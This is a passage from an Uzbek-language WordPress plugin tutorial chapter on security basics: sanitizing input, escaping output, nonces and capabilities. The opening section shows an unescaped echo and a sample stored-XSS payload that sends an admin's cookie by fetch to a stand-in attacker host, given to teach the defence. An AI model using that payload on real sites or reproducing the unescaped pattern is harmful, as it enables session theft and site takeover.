

repository: iOqil/e-book · page: wp-plugin/12-xavfsizlik-asoslari/index.html · generator: mkdocs · copyright: © 2026 Oqil Imomnazarov · bepul · savdo taqiqlanadi · CC BY-NC-SA 4.0

# 12 — Xavfsizlik asoslari: nonce, sanitize, escape

[⬅ Oldingi: 11 — Foydalanuvchi, rol va capabilities](./11-rollar-capabilities.md) · [🏠 README](./README.md) · [Keyingi: 13 — Shortcode'lar ➡](./13-shortcode.md)

> **Bu bobda:** WordPress plugin xavfsizligining uchta ustunini — kirishni tozalash (**sanitize**), chiqishni qochirish (**escape**) va harakatni himoyalash (**nonce + capability**) — chuqur o'rganasiz: oltin qoidani, har bir sanitize funksiyasini (`sanitize_text_field`, `sanitize_email`, `absint`, `sanitize_key`, `wp_kses`/`wp_kses_post`, `wp_unslash`), kontekstga bog'liq escape funksiyalarini (`esc_html`, `esc_attr`, `esc_url`, `esc_js`, `esc_textarea`) va nonce oilasini (`wp_create_nonce`, `wp_verify_nonce`, `check_admin_referer`, `check_ajax_referer`, `wp_nonce_field`, `wp_nonce_url`) — barchasi rasmiy docs bilan tasdiqlangan imzolar bilan; oxirida XSS, CSRF, SQLi, IDOR va fayl yuklash zaifliklarini va ularning har biriga himoyani ko'rib chiqamiz.

---

## Muammo: bitta unutilgan escape — butun saytni qulaydi

Tasavvur qiling: siz `kitoblar-katalogi` plugin'ida kitob muallifini shunday chiqardingiz:

```php
echo '<p>Muallif: ' . get_post_meta( $post_id, '_kitob_muallif', true ) . '</p>';
```

Bir kun kimdir muallif maydoniga `<script>fetch('https://yomon.uz/o\x67rla?c='+document.cookie)</script>` yozadi. Endi shu kitob sahifasini ochgan **har bir admin**'ning cookie'si o'g'irlanadi — hujumchi admin sifatida saytga kiradi. Bu — **saqlangan XSS** (Stored Cross-Site Scripting), eng keng tarqalgan WordPress zaifligi. Sababi bitta: chiqishda **escape qilinmagan**.

WordPress'ning butun ekotizimi (40%+ internet saytlari) shu kabi xatolarga tayanadi. Yaxshi xabar: himoya **uch oddiy odat**dan iborat. Yomon xabar: ulardan birortasini unutsangiz, zaiflik tayyor.

📌 **Bu bob — butun kitobning xavfsizlik poydevori.** 09-bobda nonce'ni, 10-bobda `$wpdb->prepare`'ni allaqachon ishlatdik. Bu yerda hammasini bitta tizimga jamlaymiz va har bir funksiyani aniq tushuntiramiz. Keyingi barcha boblar (shortcode, AJAX, REST, blok) shu qoidalarga tayanadi.

---

## Oltin qoida: uch ustun

WordPress xavfsizligining hammasini bitta jumlaga sig'dirsa bo'ladi:

> **INPUT'ni sanitize qil, OUTPUT'ni escape qil, harakatni nonce + capability bilan himoyala.**

![Xavfsizlikning uch ustuni: kirishni sanitize qilish, chiqishni escape qilish, harakatni nonce va capability bilan himoyalash](rasmlar/wpp12-xavfsizlik-uchligi.svg)

Bu uchligini doim shu tartibda eslang. Ma'lumot plugin'ingizga **kiradi** (forma, URL, REST, fayl) — uni **sanitize** qilasiz. Ma'lumot foydalanuvchiga **chiqadi** (HTML, atribut, URL) — uni **escape** qilasiz. Kimdir biror **harakat** so'raydi (saqlash, o'chirish) — **nonce** bilan "haqiqatan shu foydalanuvchimi?" va **capability** bilan "huquqi bormi?" deb tekshirasiz.

⚠ **Sanitize va escape — bir xil narsa emas.** Boshlovchilar ko'p qilaydigan xato: kirishda escape qilish yoki "bir marta tozalaganman, chiqishda kerak emas" deb o'ylash. Yo'q. Sanitize — kirishni **ishlatishga yaroqli holatga** keltiradi (masalan email formatiga). Escape — chiqishni **aniq kontekst uchun xavfsiz** qiladi (HTML matnmi, atributmi, URLmi). Bir qiymat bazada toza saqlanib, chiqishda baribir escape qilinishi kerak — chunki uni qanday kontekstda ko'rsatishingizni saqlash payti bilmaydi.

---

## 1-ustun: SANITIZE (kirishni tozalash)

**Sanitize** — tashqaridan kelgan ishonchsiz ma'lumotni ishlatishdan oldin tozalash. "Tashqaridan" degani: `$_POST`, `$_GET`, `$_REQUEST`, `$_COOKIE`, REST so'rovi, yuklangan fayl nomi, hatto bazadagi eski ma'lumot ham (chunki uni boshqa plugin yozgan bo'lishi mumkin).
